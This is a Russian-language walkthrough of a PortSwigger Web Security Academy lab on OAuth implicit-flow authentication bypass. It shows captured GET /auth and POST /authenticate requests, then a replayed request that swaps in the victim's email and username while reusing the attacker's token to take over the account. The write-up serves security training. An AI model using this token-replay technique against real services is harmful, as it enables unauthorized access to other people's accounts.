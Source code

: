 Перейдем на уязвимый ресурс

и для начала пройдем полный путь аутентификации используя креды `wiener:peter`

перейдем в `Proxy` -> `HTTP history` и изучим историю запросов

Увидим, что процесс аутентификации начинается с
```
GET /auth?client_id=vxvfetgupmeykjss7i9rx&redirect_uri=https://0a64003504fa9bf884880f7b000200ea.web-security-academy.net/oauth-callback&response_type=token&nonce=-756640781&scope=openid%20profile%20email 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/26.%20OAuth%20authentication/1.%20Authentication%20bypass%20via%20OAuth%20implicit%20flow/pics%20for%20walkthrough/1.png)

но так же при анализе найдем запрос 
```
POST /authenticate

{"email":"wiener@hotdog.com","username":"wiener","token":"gBxgCe6eva6ea1nf8Q4KOEjWEDiV2rLul2p3vdRTGQ6"}
```
его и отправим в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/26.%20OAuth%20authentication/1.%20Authentication%20bypass%20via%20OAuth%20implicit%20flow/pics%20for%20walkthrough/2.png)

Изменим почтовый адрес на `carlos@carlos-montoya.net` и username на `carlos`

и отправим запрос 
```
POST /authenticate 

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"gBxgCe6eva6ea1nf8Q4KOEjWEDiV2rLul2p3vdRTGQ6"}
```

и увидим, что никакой ошибки данный вопрос не вызвал, и мы получили редирект 

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/26.%20OAuth%20authentication/1.%20Authentication%20bypass%20via%20OAuth%20implicit%20flow/pics%20for%20walkthrough/3.png)

отлично, осуществим данный запрос в оригинальной версии браузера

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/26.%20OAuth%20authentication/1.%20Authentication%20bypass%20via%20OAuth%20implicit%20flow/pics%20for%20walkthrough/4.png)

и получим уведомление об успешном выполненнии лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/26.%20OAuth%20authentication/1.%20Authentication%20bypass%20via%20OAuth%20implicit%20flow/pics%20for%20walkthrough/5.png)
